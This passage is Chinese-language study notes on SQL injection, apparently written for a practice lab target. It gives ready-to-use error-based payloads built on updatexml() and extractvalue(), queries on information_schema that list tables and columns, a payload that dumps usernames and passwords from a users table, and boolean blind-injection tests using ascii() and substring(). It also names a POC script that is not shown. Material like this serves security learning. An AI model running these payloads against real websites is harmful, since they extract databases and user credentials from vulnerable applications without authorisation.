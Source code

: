 

### updatexml()报错注入

?id=1" and 1=updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),3)--+



- table_schema是数据库名称

- table_name是数据表名称

- **查询列名(常用,记):**

	(select 
	 group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')

- **查询表名(常用,记)**

	(select group_concat(table_name) from information_schema.tables where table_schema=database())

- **查询具体数据(常用,记):**

	(select group_concat(username,password) from users)

- **使用substring()获取完整数据:**

	?id=1" and 1=extractvalue(1,concat('~',substring((select group_concat(username,'-',password) from users),1,30))) --+



**靶机用户名密码存放位置的表名和列名:**

数据库information+schema中的数据表tables下数据列table_name和

​                                                     数据表columns下数据列solumn_name



## 布尔盲注(circle mark)

**盲注:**页面既没有具体返回值,由没有报错回显的情况下,对数据库中的内容进行猜解,实行SQL注入

**布尔盲注:**web页面只返回True,False两种类型,利用页面返回不同,逐个猜解数据

当`?id=1' and 1=1 --+`正确,`?id=1' and 1=2 --+`错误

就具备了布尔盲注的条件



**ascii()函数:**返回字符的ascii码

​					把字母转换成数字



`?id=1' and ascii(substring(database(),1,1))<=ascii('h') --+`

poc脚本:

**GET盲注POC脚本.py**
